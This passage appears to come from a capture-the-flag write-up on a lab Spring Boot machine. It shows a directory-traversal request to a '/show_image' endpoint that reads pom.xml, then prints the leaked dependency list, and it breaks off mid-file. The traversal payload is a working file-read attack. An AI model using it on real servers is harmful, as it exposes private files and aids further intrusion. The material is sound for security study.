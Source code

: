 Fuzzing i only found one file, that was `pom.xml` indicating it was a spring app.

```text
GET http://10.10.11.204:8080/show_image?img=../../../pom.xml HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Length: 0
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
```